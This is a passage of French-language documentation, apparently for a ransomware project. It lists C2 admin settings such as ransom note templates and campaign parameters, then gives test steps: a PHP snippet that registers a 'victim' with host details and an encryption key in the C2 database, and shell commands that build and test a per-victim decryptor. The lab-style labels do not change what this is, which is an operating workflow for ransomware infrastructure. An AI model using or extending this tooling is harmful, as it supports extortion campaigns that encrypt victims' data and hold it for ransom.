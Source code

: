 #### **Onglet Configuration**
- Templates de notes de rançon
- Paramètres de campagne
- Configuration des algorithmes
- Réglages de recherche

## 🔬 **Phase 4 : Tests et Validation**

### **4.1 Test du Workflow Complet**

```bash
# 1. Créer une victime de test
cd /app/c2_server
php -r "
require_once 'enhanced_database.php';
\$db = new EnhancedDatabase();
\$victim_id = 'test_victim_' . time();
\$test_key = bin2hex(random_bytes(32));

\$db->addVictim([
    'victim_id' => \$victim_id,
    'hostname' => 'TEST-RESEARCH-VM',
    'ip_address' => '192.168.1.200',
    'os_version' => 'Windows 11 Research',
    'domain' => 'RESEARCH.LOCAL',
    'cpu_count' => 4,
    'memory_gb' => 8.0,
    'disk_space_gb' => 500.0,
    'antivirus' => 'Research Defender',
    'firewall' => 'Research Firewall',
    'country' => 'FR',
    'encryption_key' => \$test_key
]);

\$db->storeEncryptionKeySecure(\$victim_id, \$test_key);
echo 'Victime de test créée: ' . \$victim_id . PHP_EOL;
echo 'Clé de chiffrement: ' . \$test_key . PHP_EOL;
"
```

### **4.2 Test de Génération de Décrypteur**

```bash
# Compiler un décrypteur personnalisé
cd /app/victim_client
./build_decryptor.sh build [VICTIM_ID] [ENCRYPTION_KEY] localhost

# Vérifier la génération
ls -la /tmp/decryptors/

# Tester le décrypteur (simulation)
./build_decryptor.sh test /tmp/decryptors/decryptor_[VICTIM_ID].exe
```
